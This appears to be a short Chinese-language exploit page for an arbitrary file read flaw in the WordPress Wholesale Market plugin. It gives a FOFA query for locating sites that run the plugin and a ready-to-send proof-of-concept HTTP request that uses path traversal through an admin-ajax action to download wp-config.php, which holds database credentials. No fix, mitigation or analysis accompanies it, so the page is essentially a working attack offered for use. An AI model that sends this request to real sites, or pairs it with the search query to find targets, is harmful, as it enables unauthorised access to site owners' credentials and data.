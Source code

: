 ## WordPress_Wholesale_Market插件存在任意文件读取漏洞

## fofa
```
body="wp-content/plugins/wholesale-market"
```

## poc
```
/wp-admin/admin-ajax.php?action=ced_cwsm_csv_import_export_module_download_error_log&tab=ced_cwsm_plugin&section=ced_cwsm_csv_import_export_module&ced_cwsm_log_download=../../../wp-config.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0
Connection: close
Accept-Encoding: gzip
```

